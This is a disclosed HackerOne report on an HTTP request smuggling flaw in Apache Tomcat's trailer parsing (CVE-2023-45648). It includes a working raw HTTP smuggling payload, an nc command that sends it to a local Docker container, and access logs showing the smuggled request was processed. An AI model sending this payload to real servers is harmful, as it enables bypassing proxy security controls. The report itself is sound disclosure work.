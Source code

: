 # Request Smuggling in Apache Tomcat (Important, CVE-2023-45648)

## Report Details
- **Report ID**: 2299692
- **URL**: https://hackerone.com/reports/2299692
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-12-30T10:58:37.620Z
- **Disclosed**: 2024-02-07T08:51:04.160Z

## Reporter
- **Username**: mukeran
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Tomcat supports Trailer Section. However, we found that in version prior than 11.0.0-M11, 10.1.13, 9.0.80, 8.5.93, Apache Tomcat cannot properly parse the trailer section if there's no colon in the trailer header's line. It will skip the following lines until the last line with a valid colon-separated key-value header pair, which can be leveraged to perform HTTP request smuggling.

If we send the following payload, the headers of the second request **(Line 12-15)** will be regarded as the trailer section of the first request, while the content of the second request **(Line 17-19)** is processed as the second request. When sending this payload to other HTTP implementations such as NGINX, **Line 12-21** would be the second request.
```http
POST /benign_path HTTP/1.1
Host: a.com
Connection: keep-alive
Transfer-Encoding: chunked

5
12345
0
Content: hello
a

POST /benign_path HTTP/1.1
Host: a.com
Connection: keep-alive
Content-Length: 37

GET /evil_path HTTP/1.1
Any: any
Host: b.com


```

Reproduce:
```shell
docker run -d --name hrs_tomcat_11 -p 43022:8080 tomcat:10.1.13
echo -n 'POST /benign_path HTTP/1.1\r\nHost: a.com\r\nConnection: keep-alive\r\nTransfer-Encoding: chunked\r\n\r\n5\r\n12345\r\n0\r\nContent: hello\r\na\r\n\r\nPOST /benign_path HTTP/1.1\r\nHost: a.com\r\nConnection: keep-alive\r\nContent-Length: 37\r\n\r\nGET /evil_path HTTP/1.1\r\nAny: any\r\nHost: b.com\r\n\r\n' | nc 127.0.0.1 43022
docker exec -it hrs_tomcat_11 /bin/sh -c "cat /usr/local/tomcat/logs/localhost*"
```

Access log:
```
192.168.215.1 - - [30/Dec/2023:10:42:00 +0000] "POST /benign_path HTTP/1.1" 404 683
192.168.215.1 - - [30/Dec/2023:10:42:00 +0000] "GET /evil_path HTTP/1.1" 404 683
```

The screenshot of emails between Apache Tomcat Security Team and me is uploaded as the attachment.

## Impact

It can be leveraged to perform HTTP request smuggling in order to bypass security mechanisms when Apache Tomcat is deployed behind a reverse proxy.

## Attachments
No attachments
